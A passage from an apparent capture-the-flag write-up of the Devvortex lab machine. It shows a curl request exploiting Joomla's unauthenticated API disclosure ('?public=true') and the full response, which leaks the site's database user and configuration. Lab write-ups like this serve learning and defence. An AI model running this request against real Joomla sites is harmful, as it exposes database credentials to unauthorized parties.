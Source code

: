 To exploit this we send a get request to `api/index.php/v1/config/application?public=true`.

```shell
labadmin@labmachine:~/devvortex$ curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
* Host dev.devvortex.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.242
*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Thu, 25 Apr 2024 12:06:52 GMT
< Content-Type: application/vnd.api+json; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Thu, 25 Apr 2024 12:06:52 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
<
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"[OMITTED]","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}

```
